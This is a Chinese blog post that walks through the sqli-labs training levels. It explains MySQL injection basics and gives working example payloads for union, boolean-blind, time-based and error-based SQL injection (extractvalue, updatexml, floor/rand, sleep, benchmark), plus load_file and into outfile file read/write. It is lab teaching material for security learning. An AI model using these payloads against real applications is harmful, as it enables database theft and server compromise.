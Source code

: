 ```yaml
---
typora-root-url: ../../../static
title: "sqli_labs通关"
date: 2020-11-28T20:04:36+08:00
draft: false
tags: ["sqli"]
categories: ["security"]
---
```


## 前置知识
### 常用函数
- version()：mysql版本；
- user()：当前数据库链接用户名；
- database()：当前链接数据库名；
- @@datadir：数据库路径；
- @@version_compile_os：操作系统版本；

例子如下：

![常用函数][p0]

### 字符串连接函数
- concat(str1,str2,...)：没有分隔符的连接字符串。
- concat_ws(separator,str1,str2,...)：含有分隔符的连接字符串。
- group_concat(str1,str2,...)：连接列的所有数据，并以逗号分割每一条数据。

例子如下：

![concat][p1]
![concat_ws][p2]
![group_concat][p3]

### 注释符
- #： `#` 号末尾的都被注释；
- --单个字符： `--单个字符` 末尾的都被注释；

例子如下：

![#和--x][p4]

### 常用命令
- show databases：显示所有数据库；
- use xxxDatabase：使用某个数据库；
- show tables：显示当前数据库下的所有数据表；
- desc xxxtable：显示某个表的结构信息（列信息）；

### information_schema数据库
- 查数据库： `select schema_name from information_schema.schemata;` 
- 查表： `select table_name from information_schema.tables where table_schema=xxxDatabase;` 
- 查列： `select column_name from information_schema.columns where table_name='users';` 

例子如下：

![常用命令][p5]

### 基于布尔的盲注
主要思想就是构造逻辑判断，主要分为以下几种常用手法：

- `left(a,b)` 函数：从左侧截取a的前b位。
- `substr(a,b,c)` 函数：从b位置开始，截取字符串a的c长度。
- `ascii()` 函数：将某个字符转换为ascii值。
- `mid(a,b,c)` 函数：从位置b开始，截取a字符串的c位。
- `ord()` 函数：同ascii()，将字符转为ascii值。
- regexp正则注入：例如， `select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));` 。
- ike匹配注入：例如，`select id,username,password from users where 1=(user() like 'roo%');` 。

### 基于报错的盲注
主要思想就是让数据暴露在报错信息中，当盲注和报错注入同时可用时，优先使用报错注入，以下几种常用的手法：

- `extractvalue(1,exp)` 函数：例如， `select extractvalue(1,@@datadir);` 。
- `updatexml(1,exp,1)` 函数：例如， `select updatexml(1,@@datadir,1);` 。
- 常用的报错注入方式： `select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;` ,可以简化成： `select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2));` ,如果关键表被禁用了，可以变成： `select count(*) from(select 1 union select null union select !1)a group by concat(version(),floor(rand(0)*2));` ,如果rand()被禁用了，可以变成： `select min(@a:=1) from information_schema.tables group by concat(version(),@a:=(@a+1)%2);` 。
- 利用重复报错特性：例如， `select * from(select NAME_CONST(version(),1),NAME_CONST(version(),1))x;` 。
- 利用溢出报错特性（需要一定版本要求）： 例如， `select exp(~(select * FROM(SELECT USER())a));` 或者 `select !(select * from(select user())x)- ~0;` 。

还有一个特殊的重复报错方式如下,可以爆列名，如果information_schema数据库被禁用，可以使用这个方式：

	mysql> select *  from(select * from test a join test b)c;
	ERROR 1060 (42S21): Duplicate column name 'id'
	mysql> select *  from(select * from test a join test b using(id))c;
	ERROR 1060 (42S21): Duplicate column name 'name'

### 基于时间的盲注
- `sleep()` 函数：例如， `select * from information_schema.tables where 1=1 and if(mid(user(),1,1)=char(114),sleep(5),1);` 。
- `benchmark()` 函数：例如， `select if(mid(version(),1,1)=8,benchmark(5000000,md5('hack_by_p1n93r')),null) from users;` 。

### 导入导出相关操作
- `load_file()` 函数：例如，`select load_file(0x433a5c55736572735c31383134385c4465736b746f705c6e6578742e747874);` 。
- `select ... into outfile ` 函数：例如，`select 0x6861636b65645f62795f70316e393372 into outfile 'C:/Users/18148/Desktop/hack.txt';` 。

***注意：*** :高版本的mysql，即使是root权限，也默认不允许进行文件的导入和导出，只能在mysql的secure-file-priv设置的目录下进行导入和导出操作。


## Notice
只打一些有代表性的过关，目的是过一遍理论知识。没时间全部打，事实上很多关没有代表性，还不如打CTF的SQLI，比较有代表性。

## Less-1~4
1. 在参数后面加一个 `'` ，根据报错显示得知是字符型注入。
2. 闭合单引号，且使用注释符把后面的SQL注释掉。
3. 使用 `order by` 探测表的列数。
4. 使用 `union(all) select` 联合查询数据。
5. 使用 `information_schema` 数据库进行查询。

爆数据库：

![less-1爆数据库][p6]

爆表：

![less-1爆表][p7]

爆列：

![less-1爆列][p8]

爆数据：

![less-1爆数据][p9]

## Less-5
没有数据回显，但是查询成功和查询失败的响应有区别，所以可以用基于布尔和时间的盲注，且能显示错误信息，所以可以利用基于报错的盲注。

① 基于布尔的盲注例子如下：

![基于布尔的盲注][p10]

② 基于时间的盲注例子如下(payload的设置和前面一样)：

![基于时间的盲注][p11]

③ 基于报错的盲注例子如下：

![基于报错的盲注][p12]

## Less-7
这一关就是提示我们使用文件导入导出来进行通关，这里演示使用load_file()和outfile的常用手法：

① 使用 `outfile` 写入可执行文件：

![outfile写入可执行文件][p13]

![outfile写入成功][p14]

② 使用 `load_file()` 和 `outfile` 结合：

![结合使用][p15]

![结合效果][p16]














[p0]:/media/2020-11-28-1.png
[p1]:/media/2020-11-28-2.png
[p2]:/media/2020-11-28-3.png
[p3]:/media/2020-11-28-4.jpg
[p4]:/media/2020-11-28-5.jpg
[p5]:/media/2020-11-28-6.png
[p6]:/media/2020-11-29-1.png
[p7]:/media/2020-12-03-1.png
[p8]:/media/2020-12-03-2.png
[p8]:/media/2020-12-03-4.png
[p9]:/media/2020-12-03-3.png
[p10]:/media/2020-12-09-1.png
[p11]:/media/2020-12-09-2.png
[p12]:/media/2020-12-09-3.png
[p13]:/media/2020-12-09-4.png
[p14]:/media/2020-12-09-5.png
[p15]:/media/2020-12-09-6.png
[p16]:/media/2020-12-09-7.png